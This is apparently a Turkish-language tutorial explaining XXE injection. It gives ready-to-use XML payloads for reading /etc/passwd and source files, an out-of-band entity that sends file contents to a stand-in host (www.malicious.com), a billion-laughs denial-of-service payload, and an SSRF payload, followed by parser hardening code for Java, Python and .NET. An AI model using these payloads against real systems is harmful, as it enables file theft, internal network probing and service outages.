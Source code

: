 # XXE Nedir
XXE, uygulamanın kullanıcıdan aldığı XML verisini güvenli olmayan bir parser ile işlemesi sonucunda ortaya çıkan bir zafiyettir. Saldırgan ```<!DOCTYPE>``` ve ```<!ENTITY>``` tanımları aracılığıyla dış kaynaklara erişebilir, sunucu üzerindeki dosyaları okuyabilir, iç ağa istek gönderebilir ya da parser’ı kötüye kullanarak DoS saldırıları gerçekleştirebilir.

#  External Entity Nedir
XML işleminde, External Entity bir XML elementidir ve harici bir kaynağa (örneğin bir dosya veya URL) referans verebilir. Eğer güvenli şekilde işlenmezse, XXE açığı oluşur. Bu da saldırganların bu entity’leri kullanarak harici dosyalara erişmesine veya kötü amaçlı sunucu taraflı işlemler gerçekleştirmesine olanak tanır.

## XXE Payload ile External Entity Referansı Örneği
Bir XML payload içerisine XXE eklenerek external entity’ye referans verilebilir.
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

Bu örnekte ```&xxe;```, sunucunun /etc/passwd dosyasına referans verir ve parser yanlış yapılandırıldıysa dosyanın içeriği yanıt olarak döner. Bu saldırılara karşı korunmak için, bu parser’ları güvenli şekilde kullanabilmek adına XXE (External Entities) özelliğini açıkça devre dışı bırakmamız gerekir.

# XXE Zafiyetini Sömürmek
## File Read
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

PHP wrapped:
```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<name>Jean &xxe; Dupont</name>
```

Xinclude:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Out Of Band:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

## DoS
```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

## SSRF 
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```

# XXE Saldırısnı Önlemek
XML Parser Konfigürasyonu

Kullandığınız dili ve XML kütüphanesini hedef alarak, external entity çözme özelliğini kapatmanız gerekir.

Java (JAXP / SAX / DOM):
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

Python (lxml):
```py
from lxml import etree

parser = etree.XMLParser(resolve_entities=False, no_network=True)
tree = etree.fromstring(xml_data, parser=parser)
```

.NET (C#)
```c#
var settings = new XmlReaderSettings
{
    DtdProcessing = DtdProcessing.Prohibit,
    XmlResolver = null
};
var reader = XmlReader.Create(stream, settings);
```

Referanslar:
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection
- https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html